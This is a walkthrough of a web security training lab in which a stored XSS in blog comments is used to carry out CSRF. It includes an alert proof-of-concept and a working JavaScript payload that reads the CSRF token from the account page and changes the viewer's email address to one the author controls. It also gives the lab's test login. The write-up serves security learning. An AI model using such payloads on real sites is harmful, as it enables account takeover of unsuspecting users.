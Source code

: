 # Lab: Exploiting XSS to perform CSRF

 This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter 


# Step 1 Find XSS in blog comments

I want to create a simple alert POC script in a blog comment and see if it executes when I view the comment:

**payload**
```html
<script>alert(document.domain)</script>
```
![image](https://user-images.githubusercontent.com/83407557/211019454-47cfdc52-e085-4318-9fa0-9b099ade73a8.png)

When I view the comment I get a alert box:

![image](https://user-images.githubusercontent.com/83407557/211019586-258b22b7-cb9c-43c9-87ff-143f8fdec1e9.png)

# Step 2 create a CSRF payload

I want to make a POC that changes my email, I login and make the request to change it to test@test.com:

![image](https://user-images.githubusercontent.com/83407557/211019843-119133f6-9444-4f24-ab98-5aed93d40dd4.png)

I then find the request in my HTTP history:

![image](https://user-images.githubusercontent.com/83407557/211020063-2cb91a4a-9234-4944-9313-fdbc5ab9cd12.png)

I see that there is a csrf token, and that I need to have the victim make a POST request to /my-account/change-email.

```html
<script>
var pwn = new XMLHttpRequest();
pwn.onload = email;
pwn.open('get','/my-account',true);
pwn.send();
function email() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var NewEmail = new XMLHttpRequest();
    NewEmail.open('post', '/my-account/change-email', true);
    NewEmail.send('csrf='+token+'&email=hermh4cks@gmail.com')
};
</script>
```
# Step 3 store the XSS->CSRF payload

I want to add the above to another comment and see if my email gets changed to hermh4cks@gmail.com:

![image](https://user-images.githubusercontent.com/83407557/211023131-490bc8b5-8130-4a7a-a43f-6f7ba73751cd.png)

I view the post:

![image](https://user-images.githubusercontent.com/83407557/211023231-ba1983ca-26ab-458f-9de9-f08939449b85.png)

And see that my email has been changed:

![image](https://user-images.githubusercontent.com/83407557/211023328-388eb17e-a141-431c-b991-fc454a1a0ae8.png)

Anyone else that views the post will now also have their email (if they are logged in) to hermh4cks@gmail.com, which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/211023471-f9f02ebe-1e32-4dc2-88f8-9e7997d25749.png)
